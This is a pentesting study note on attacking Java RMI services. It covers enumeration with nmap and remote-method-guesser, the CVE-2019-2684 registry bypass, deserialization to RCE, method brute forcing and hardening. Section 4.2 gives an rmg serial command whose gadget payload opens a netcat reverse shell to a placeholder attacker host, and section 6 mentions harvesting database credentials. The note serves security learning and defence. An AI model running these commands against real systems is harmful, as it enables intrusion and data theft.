

# 43 - Java RMI (Ports 1099/1098/1050) Pentesting

## 1. Executive Summary

Java RMI (Remote Method Invocation) is an object-oriented **RPC** mechanism letting an object in one JVM call methods on an object in another JVM. Common ports: **1090, 1098, 1099, 1199, 4443-4446, 8999-9010, 9999** — but actual remote objects bind to *random* ports; only the **RMI Registry** and (deprecated) **Activation System** sit on the well-known ones. The big risks: (1) the default components have known deserialization/bypass CVEs (e.g. **CVE-2019-2684** registry localhost-bypass); (2) RMI endpoints frequently accept **Java deserialization** payloads → RCE via `ysoserial` gadget chains; (3) custom remote objects can be method-signature-bruteforced and invoked.

## 2. Protocol Overview & Architecture

To call a method, a client must know: target IP, port, the implemented class/interface, and the object's **`ObjID`** (a random unique id, since many objects can share one TCP port). The **RMI Registry** solves discovery — it is itself an RMI service with a *fixed, known* interface and `ObjID`, mapping human-readable **bound names** → connection info (like DNS for objects). Clients ask the registry for a bound name and get back everything needed to connect. Because the default components have fixed, known interfaces, they are easy to interact with — and to attack.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 1090,1098,1099,1199,4443-4446,9010,9999 <IP>
# nmap sometimes mislabels SSL-protected RMI as 'unknown ssl' on RMI ports — investigate

# remote-method-guesser (rmg): automatic RMI vuln scanner — run on every RMI endpoint
rmg enum <IP> 1099
rmg scan <IP> 1099
```

## 4. Exploitation Deep Dive

### 4.1 Automated Vuln Scan (remote-method-guesser)
`rmg enum` lists bound names, server codebase, and flags known issues — e.g.:
```
[+] RMI registry localhost bypass enumeration (CVE-2019-2684)
```
This bypass lets a remote client perform registry operations normally restricted to localhost.

### 4.2 Deserialization → RCE
Default components and many custom objects deserialize attacker data. Generate a gadget payload and fire it:
```bash
# build ysoserial gadget, deliver via rmg against registry / activator / remote object
rmg serial <IP> 1099 CommonsCollections6 'nc <ATT> 4444 -e /bin/sh' --bound-name <name>
```
Pick the gadget matching libraries on the server classpath (CommonsCollections, etc.).

### 4.3 Method Signature Brute Force (custom objects)
RMI cannot enumerate methods on remote objects — you must know the signature. Brute force it:
```bash
rmg guess <IP> 1099                 # remote-method-guesser
# or rmiscout with a wordlist of candidate signatures
rmiscout wordlist <IP>:1099 signatures.txt
```
Once a method is found, invoke it (`rmg call`) — and test it for deserialization too.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE runs as the JVM service account → foothold; enumerate app secrets/DB creds in the Java app.
- Pivot using any internal connectivity the app server has.

## 7. Defense & Hardening
1. Patch the JVM (closes registry/activator deserialization CVEs); remove the deprecated Activation System.
2. Enable RMI deserialization filters (JEP 290 / `jdk.serialFilter`) to allowlist classes.
3. Bind RMI to internal interfaces; firewall registry + the random object ports.
4. Use TLS-protected RMI and authentication where supported.

## 8. Chaining Opportunities
- Same Java-deserialization theme as **[[46 - AJP Apache JServ (Port 8009) Pentesting]]** (Tomcat) and **[[44 - JDWP (Port 8000) Pentesting]]**.
- Shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[44 - JDWP (Port 8000) Pentesting]]

## 10. Tools
`remote-method-guesser (rmg)`, `rmiscout`, `ysoserial`, `nmap`.
